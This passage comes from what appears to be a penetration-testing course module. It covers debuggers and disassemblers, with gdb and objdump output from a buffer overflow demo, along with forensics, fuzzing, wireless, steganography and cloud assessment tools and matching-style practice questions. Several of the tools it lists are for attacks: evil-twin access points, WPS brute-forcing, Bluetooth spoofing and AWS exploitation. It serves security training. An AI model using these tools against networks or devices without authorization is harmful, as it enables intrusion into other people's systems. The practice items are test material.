AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You entered:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Program received signal SIGILL, Illegal instruction.
0x08048500 in main ()
(gdb) continue
Continuing.
Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
(gdb)
Windows Debugger
You can use the Windows Debugger (WinDbg) to debug kernel and user mode code. You can also use it to analyze crash dumps and to analyze the CPU registers as code executes. You can get debugging tools from Microsoft via the following methods:
- By downloading and installing the Windows Driver Kit (WDK)
- As a standalone tool set
- By downloading the Windows Software Development Kit (SDK)
- By downloading Microsoft Visual Studio
OllyDbg
OllyDbg is a debugger created to analyze Windows 32-bit applications. It is included in Kali Linux and other penetration testing distributions; it can also be downloaded from https://www.ollydbg.de.
Figure 10-34 shows a screenshot of OllyDbg in Kali Linux. OllyDbg is used to debug the Windows 32-bit version of the Git installation package.
Figure 10-34 - OllyDbg Example

edb Debugger
The edb debugger (often called Evan's debugger) is a cross-platform debugger that supports AArch32, x86, and x86-64 architectures. It comes by default with Kali Linux, and it can be downloaded from https://github.com/eteran/edb-debugger.
Figure 10-35 shows edb being used to analyze the vulnerable program that was used earlier in this module (vuln_program; refer to Example 10-43 above). In this example, the edb debugger steps through the execution of the code, and the user enters a large number of A characters, causing a buffer overflow to be exploited. (You can see the different registers, like EIP, filled with A.)
Figure 10-35 - Using the edb Debugger

Ghidra
Ghidra is a powerful and free tool popular among security researchers for reverse engineering and binary analysis. Developed by the NSA, Ghidra provides comprehensive capabilities for dissecting and understanding complex software, including malware analysis and vulnerability research. Its standout feature is a built-in decompiler that makes analyzing binary code more accessible. While it does not directly support exploit development, Ghidra's extensive scripting capabilities (with Java and Python-based APIs) allow users to create custom analysis scripts. You can download Ghidra from https://www.ghidra-sre.org/.
Interactive Disassembler (IDA)
Interactive Disassembler (IDA) is one of the most popular disassemblers, debuggers, and decompilers on the market. IDA is a commercial product of Hex-Rays, and it can be purchased from https://www.hex-rays.com/products/ida/index.shtml.
Figure 10-36 shows IDA being used to disassemble and analyze the vulnerable program (vuln_program) used previously. You can see the program control flow and how the executable is broken into blocks of functions. Colored arrows show control flow between the function blocks. If an arrow is red, a conditional jump is not taken. If it is green, a jump is taken, and if it is blue, an unconditional jump is taken.
Figure 10-36 - Disassembling a Vulnerable Program by Using IDA

Figure 10-37 shows IDA's text mode, where you can examine all of the disassembled code of the executable under analysis. The unconditional jump is indicated by solid lines, and conditional jumps are shown as dashed lines.
Figure 10-37 - Example of IDA Debugging and Disassembly Capabilities

Objdump
Objdump is a Linux program that can be used to display information about one or more object files. You can use Objdump to do quick checks and disassembly of binaries, as demonstrated in Example 10-44.
Example 10-44 - Using Objdump to Disassemble a Vulnerable Application
vuln_program: file format elf32-i386
Disassembly of section .init:
08048314 <_init>:
8048314: 53 push %ebx
8048315: 83 ec 08 sub $0x8,%esp
8048318: e8 b3 00 00 00 call 80483d0 <__x86.get_pc_thunk.bx>
804831d: 81 c3 e3 1c 00 00 add $0x1ce3,%ebx
8048323: 8b 83 fc ff ff ff mov -0x4(%ebx),%eax
8048329: 85 c0 test %eax,%eax
804832b: 74 05 je 8048332 <_init+0x1e>
804832d: e8 3e 00 00 00 call 8048370 <__gmon_start__@plt>
8048332: 83 c4 08 add $0x8,%esp
8048335: 5b pop %ebx
8048336: c3 ret
Disassembly of section .plt:
08048340 <.plt>:
8048340: ff 35 04 a0 04 08 pushl 0x804a004
8048346: ff 25 08 a0 04 08 jmp *0x804a008
804834c: 00 00 add %al,(%eax)
...
08048350 <printf@plt>:
8048350: ff 25 0c a0 04 08 jmp *0x804a00c
8048356: 68 00 00 00 00 push $0x0
804835b: e9 e0 ff ff ff jmp 8048340 <.plt>
08048360 <puts@plt>:
8048360: ff 25 10 a0 04 08 jmp *0x804a010
8048366: 68 08 00 00 00 push $0x8
804836b: e9 d0 ff ff ff jmp 8048340 <.plt>
08048370 <__gmon_start__@plt>:
8048370: ff 25 14 a0 04 08 jmp *0x804a014
8048376: 68 10 00 00 00 push $0x10
804837b: e9 c0 ff ff ff jmp 8048340 <.plt>
08048380 <__libc_start_main@plt>:
8048380: ff 25 18 a0 04 08 jmp *0x804a018
8048386: 68 18 00 00 00 push $0x18
804838b: e9 b0 ff ff ff jmp 8048340 <.plt>
<output omitted for brevity>
10.2.16 Practice - Common Decompilation, Disassembly, and Debugging Tools
While investigating the file system of a host on the Pixel Paradise network, you discover a suspected malware binary file. It is important to investigate the purpose and function of the file in case it has caused damage, loss of files, or created additional vulnerabilities. This often requires decompiling the file to investigate the source code. Various tools are available for the analysis of binaries.
Match the decompilation, disassembly, and debugging tools to their descriptions.
10.2.17 Common Tools for Forensics
The following are a few examples of tools and Linux distributions that can be used for forensics:
- ADIA (Appliance for Digital Investigation and Analysis): ADIA is a VMware-based appliance used for digital investigation and acquisition that is built entirely from public domain software. Among the tools contained in ADIA are Autopsy, the Sleuth Kit, the Digital Forensics Framework, log2timeline, Xplico, and Wireshark. Most of the system maintenance uses Webmin. ADIA is designed for small to medium-sized digital investigations and acquisitions. The appliance runs under Linux, Windows, and macOS. Both i386 (32-bit) and x86_64 (64-bit) versions are available. You can download ADIA from https://forensics.cert.org/#ADIA.
- CAINE: The Computer Aided Investigative Environment (CAINE) contains numerous tools that help investigators with analyses, including forensic evidence collection. You can download CAINE from http://www.caine-live.net/index.html.
- Skadi: This all-in-one solution to parsing collected data makes the data easily searchable with built-in common searches and enables searching of single and multiple hosts simultaneously. You can download Skadi from https://github.com/orlikoski/Skadi.
- PALADIN: PALADIN is a modified Linux distribution for performing various evidence collection tasks in a forensically sound manner. It includes many open source forensics tools. You can download PALADIN from https://sumuri.com/software/paladin/.
- Security Onion: Security Onion, a Linux distro aimed at network security monitoring, features advanced analysis tools, some of which can help in forensic investigations. You can download Security Onion from https://github.com/Security-Onion-Solutions/security-onion.
- SIFT Workstation: The SANS Investigative Forensic Toolkit (SIFT) Workstation demonstrates that advanced incident response capabilities and deep-dive digital forensic techniques to intrusions can be accomplished using cutting-edge open source tools that are freely available and frequently updated. You can download SIFT Workstation from https://digital-forensics.sans.org/community/downloads.
10.2.18 Practice - Common Tools for Forensics
Match the forensics tool or Linux distribution to the description.
10.2.19 Common Tools for Software Assurance
Select each of the following tools to learn more about how they can be used to perform software and protocol robustness tests, including fuzzers and code analysis tools.
- SpotBugs (previously known as Findbugs) is a static analysis tool designed to find bugs in applications created in the Java programming language. You can download and obtain more information about SpotBugs at https://spotbugs.github.io.
- Findsecbugs is another tool designed to find bugs in applications created in the Java programming language. It can be used with continuous integration systems such as Jenkins and SonarQube. Findsecbugs provides support for popular Java frameworks, including Spring-MCV, Apache Struts, and Tapestry. You can download and obtain more information about Findbugs at https://find-sec-bugs.github.io.
- SonarQube is a tool that can be used to find vulnerabilities in code, and it provides support for continuous integration and DevOps environments. You can obtain additional information about SonarQube at https://www.sonarqube.org.
Fuzz testing, or fuzzing, is a technique that can be used to find software errors (or bugs) and security vulnerabilities in applications, operating systems, infrastructure devices, IoT devices, and other computing devices. Fuzzing involves sending random data to the unit being tested in order to find input validation issues, program failures, buffer overflows, and other flaws. Tools that are used to perform fuzzing are referred to as fuzzers. Examples of popular fuzzers are Peach, Mutiny Fuzzing Framework, and American Fuzzy Lop.
Peach is one of the most popular fuzzers in the industry. There is a free (open-source) version, the Peach Fuzzer Community Edition, and a commercial version. You can download the Peach Fuzzer Community Edition and obtain additional information about the commercial version at https://sourceforge.net/projects/peachfuzz/files/Peach/.
The Mutiny Fuzzing Framework is an open-source fuzzer created by Cisco. It works by replaying packet capture files (pcaps) through a mutational fuzzer. You can download and obtain more information about Mutiny Fuzzing Framework at https://github.com/Cisco-Talos/mutiny-fuzzer.
American Fuzzy Lop (AFL) is a tool that provides features of compile-time instrumentation and genetic algorithms to automatically improve the functional coverage of fuzzing test cases. You can obtain information about AFL from https://lcamtuf.coredump.cx/afl/.
10.2.20 Practice - Common Tools for Software Assurance
Match the software assurance tool to its description.
10.2.21 Wireless Tools
Module 5, "Exploiting Wired and Wireless Networks," discusses how to hack wireless networks. It discusses tools like Aircrack-ng, Kismet, KisMAC, and other tools that can be used to perform assessments of wireless networks. Refer to Module 5 for additional information about those tools.
The following are several wireless hacking tools that can help in testing wireless networks:
- Wifite2: This is a Python program to test wireless networks that can be downloaded from https://github.com/derv82/wifite2.
- Rogue access points: You can easily create rogue access points by using open-source tools such as hostapd. Omar Santos has a description of how to build your own wireless hacking lab and use hostapd at https://github.com/The-Art-of-Hacking/h4cker/blob/master/wireless_resources/virtual_adapters.md.
- EAPHammer: This tool, which you can use to perform evil twin attacks, can be downloaded from https://github.com/s0lst1c3/eaphammer.
- mdk4: This tool is used to perform fuzzing, IDS evasions, and other wireless attacks. mdk4 can be downloaded from https://github.com/aircrack-ng/mdk4.
- Spooftooph: This tool is used to spoof and clone Bluetooth devices. It can be downloaded from https://gitlab.com/kalilinux/packages/spooftooph.
- Reaver: This tool is used to perform brute-force attacks against Wi-Fi Protected Setup (WPS) implementations. Reaver can be downloaded from https://gitlab.com/kalilinux/packages/reaver.
- Wireless Geographic Logging Engine (WiGLE): You can learn about this war driving tool at https://wigle.net.
- Fern Wi-Fi Cracker: This tool is used to perform different attacks against wireless networks, including cracking WEP, WPA, and WPS keys. You can download Fern Wi-Fi Cracker from https://gitlab.com/kalilinux/packages/fern-wifi-cracker.
10.2.22 Practice - Wireless Tools
Question 1
Match the wireless hacking tool to the description.
Question 2
You are assessing physical security around a pentesting client's facility and notice that employees carry their laptops to the cafe across the street so that they can work while they eat lunch. You are curious about whether you can gain access to their laptops over Bluetooth by posing as a customer of the cafe.
Which tool would you use to spoof and clone Bluetooth devices in order to gain unauthorized wireless access to vulnerable employee laptops?
Question 3
A high-profile private client has contracted you to do a security audit of their home. The client is concerned that fans or journalists might be able to hack into their personal network. The client told you that the wireless network was setup by his teenaged child, so you are concerned that there may be some vulnerabilities in the network configuration, especially WPS.
What wireless tool is best suited to verifying the security of the WPS implementation in the client's home?
10.2.23 Steganography Tools
In Module 8, you learned that steganography is the act of hiding information in images, videos, and other files. You also learned about tools such as steghide. The following are a few additional tools that can be used to perform steganography:
- OpenStego: You can download this steganography tool from https://www.openstego.com.
- snow: This is a text-based steganography tool that can be downloaded from https://github.com/mattkwan-zz/snow.
- Coagula: This program, which can be used to make sound from an image, can be downloaded from https://www.abc.se/~re/Coagula/Coagula.html.
- Sonic Visualiser: This tool can be used to analyze embedded information in music or audio recordings. It can be downloaded from https://www.sonicvisualiser.org.
- TinEye: This is a reverse image search website at https://tineye.com.
- metagoofil: This tool can be used to extract metadata information from documents and images. You can download metagoofil from https://github.com/laramies/metagoofil.
10.2.24 Practice - Steganography Tools
Match the steganography tool to its description.
10.2.25 Cloud Tools
In Module 7, "Cloud, Mobile, and IoT Security," you learned about a variety of tools that can be used to test cloud-based solutions. The following are several additional tools that can be used to perform cloud-based assessments:
- ScoutSuite: This collection of tools can be used to reveal vulnerabilities in AWS, Azure, Google Cloud Platform, and other cloud platforms. You can download ScoutSuite from https://github.com/nccgroup/ScoutSuite.
- CloudBrute: You can download this cloud enumeration tool from https://github.com/0xsha/CloudBrute.
- Pacu: This is a framework for AWS exploitation that can be downloaded from https://github.com/RhinoSecurityLabs/pacu.
- Cloud Custodian: This cloud security, governance, and management tool can be downloaded from https://cloudcustodian.io.
10.2.26 Practice - Cloud Tools
Match the cloud tool to the description.